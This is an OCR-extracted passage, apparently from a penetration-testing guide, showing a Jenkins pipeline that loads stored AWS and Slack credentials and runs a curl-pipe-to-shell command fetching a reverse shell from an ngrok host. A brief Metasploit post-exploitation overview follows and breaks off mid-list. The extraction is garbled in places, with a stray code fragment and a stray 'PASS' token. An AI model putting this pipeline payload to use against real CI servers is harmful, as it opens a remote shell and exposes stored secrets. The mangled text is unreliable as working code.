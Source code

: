 ```groovy
}
```
```bash
pipeline {
agent {label 'built-in'}
triggers { cron('H */4 * * 1-5') }
environment {
GENERIC_ENV_VAR = "Test pipeline ENV variables."
}

stages {
stage("Build") {
environment {
STAGE_ENV_VAR = "Test stage ENV variables."
}
steps {
withCredentials([usernamePassword(credentialsId: 'amazon', usernameVariable: 'USERNAME', passwordVariable: 'PASSWORD'),
string(credentialsId: 'slack-url',variable: 'SLACK_URL'),]) {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh PASS
'''
}
}
}

post {
always {
cleanWs()
}
}
}
```
## Post Exploitation

### Metasploit

Metasploit is a powerful framework for exploiting vulnerabilities and conducting post-exploitation activities. It provides a wide range of modules and payloads that can be used to gain unauthorized access, escalate privileges, and maintain persistence on compromised systems.

Metasploit is widely used by both ethical hackers and malicious actors due to its extensive collection of exploits and ease of use. It allows hackers to automate the process of identifying and exploiting vulnerabilities, making it an invaluable tool for penetration testing and red teaming exercises.

Some of the key features of Metasploit include:

- Exploit modules: These modules contain the actual exploits that can be used to compromise a target system. Metasploit provides a large number of exploit modules for various vulnerabilities and platforms.
